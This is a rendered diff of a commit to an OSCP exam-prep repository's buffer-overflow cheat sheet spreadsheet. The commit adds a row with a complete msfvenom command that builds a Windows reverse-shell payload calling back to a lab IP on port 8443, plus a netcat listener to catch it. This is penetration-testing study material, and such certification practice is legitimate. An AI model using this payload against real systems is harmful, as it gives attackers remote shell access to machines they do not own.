

Before and after one commit to ashwinragul89/OSCP, an Excel workbook: BOF_Cheatsheet.xlsx, sheet Checklist, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/BOF_Cheatsheet.xlsx (sheet Checklist)
+++ b/BOF_Cheatsheet.xlsx (sheet Checklist)
-D32: X86, X64 Included with nops
+D32: X86, X64 Included with nops, multi handler
+row 33:  | Windows | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.150.128 LPORT=8443 -b "\x00" -f py -v shellcode -n 48 AppendExit=true | Non-Stagged Included with nops, caught via nc -lnvp 8443
```
Also changed, not shown: SMB_Exploits.xlsx, Windows_Priv_checklist.xlsx.
